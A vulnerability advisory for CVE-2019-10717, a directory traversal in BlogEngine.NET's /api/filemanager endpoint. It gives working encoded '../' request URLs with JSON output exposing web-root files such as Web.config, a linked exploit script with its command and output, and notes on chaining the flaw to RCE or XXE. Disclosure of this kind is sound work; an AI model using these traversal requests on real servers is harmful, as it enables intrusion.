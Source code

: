 A directory traversal, CVE-2019-10717, was identified on BlogEngine.NET applications versions 3.3.7 and earlier through the `/api/filemanager` endpoint.  This issue reveals the contents of directories in the web root. Authentication is required to exploit this issue.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 19 Jun 2019

## Description

`File Manager` is used by the application to show the contents of `~/App_Data/files` and sub-directories in the UI.  Submitting requests directly to `/api/filemanager` with a modified `path` parameter reveals directory contents beyond `~/App_Data/files`.  

![](filemanager.png)

A request to `/api/filemanager?path=%2F..%2f..%2f` shows the contents of the web root:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2f"}
...
  {
    "IsChecked": false,
    "SortOrder": 25,
    "Created": "5/26/2018 1:53:02 PM",
    "Name": "Web.config",
    "FileSize": "19.41 kb",
    "FileType": 1,
    "FullPath": "/../../Web.config",
    "ImgPlaceholder": "fa fa-file-o"
  },
...
~~~

The content of additional directories will be revealed by tampering with the **path** parameter:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2fContent"}
  {
    "IsChecked": false,
    "SortOrder": 15,
    "Created": "3/30/2019 9:09:23 PM",
    "Name": "toastr.scss",
    "FileSize": "6.92 kb",
    "FileType": 1,
    "FullPath": "/../../Content/toastr.scss",
    "ImgPlaceholder": "fa fa-file-o"
  }
~~~

This issue could be exploited to verify uploaded files needed for a RCE attack or to identify files to retrieve through an XXE.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10717/exploit.py>

Generates a list of all files in the web root:

~~~{command="python CVE-2019-10717.py -t 192.168.10.9"}
?path=~/App_Data/files/../../bin
/../../bin/AjaxMin.dll
/../../bin/BlogEngine.Core.dll
/../../bin/BlogEngine.Core.pdb
/../../bin/BlogEngine.Core.xml
/../../bin/BlogEngine.NET.dll
/../../bin/BlogEngine.NET.dll.config
/../../bin/BlogEngine.NET.pdb
/../../bin/BlogML.dll
/../../bin/Dynamic.dll
/../../bin/ICSharpCode.SharpZipLib.dll
/../../bin/Microsoft.Web.Infrastructure.dll
/../../bin/Microsoft.Web.XmlTransform.dll
/../../bin/Newtonsoft.Json.dll
/../../bin/Newtonsoft.Json.xml
~~~
